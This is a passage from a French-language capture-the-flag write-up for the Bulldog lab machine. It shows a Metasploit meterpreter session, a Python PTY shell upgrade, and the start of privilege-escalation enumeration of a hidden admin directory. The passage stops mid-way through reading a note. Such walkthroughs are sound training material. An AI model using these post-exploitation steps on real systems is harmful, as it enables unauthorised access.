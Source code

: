 Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : bulldog
OS              : Linux 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > shell
Process 13271 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

$ python -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /root/.bashrc: Permission denied
django@bulldog:/home/django/bulldog$
```

## Élévation de privilèges (root)

Partons à la recherche de fichiers intéressants... le répertoire ```.hiddenadmindirectory``` semble être une bonne piste.

```console
django@bulldog:/home/django/bulldog$ cd /home/bulldogadmin
cd /home/bulldogadmin
django@bulldog:/home/bulldogadmin$ ls -al
ls -al
total 40
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21 00:45 .
drwxr-xr-x 4 root         root         4096 Aug 24 23:16 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24 22:39 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24 22:39 .bashrc
drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24 22:40 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21 00:44 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 25 03:18 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24 22:39 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 25 03:18 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24 22:45 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24 23:20 .wget-hsts

django@bulldog:/home/bulldogadmin$ ls -al .hiddenadmindirectory
ls -al .hiddenadmindirectory
total 24
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21 00:44 .
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21 00:45 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin 8728 Aug 26 03:18 customPermissionApp
-rw-rw-r-- 1 bulldogadmin bulldogadmin  619 Sep 21 00:44 note

django@bulldog:/home/bulldogadmin$ cat .hiddenadmindirectory/note
cat .hiddenadmindirectory/note
Nick,

```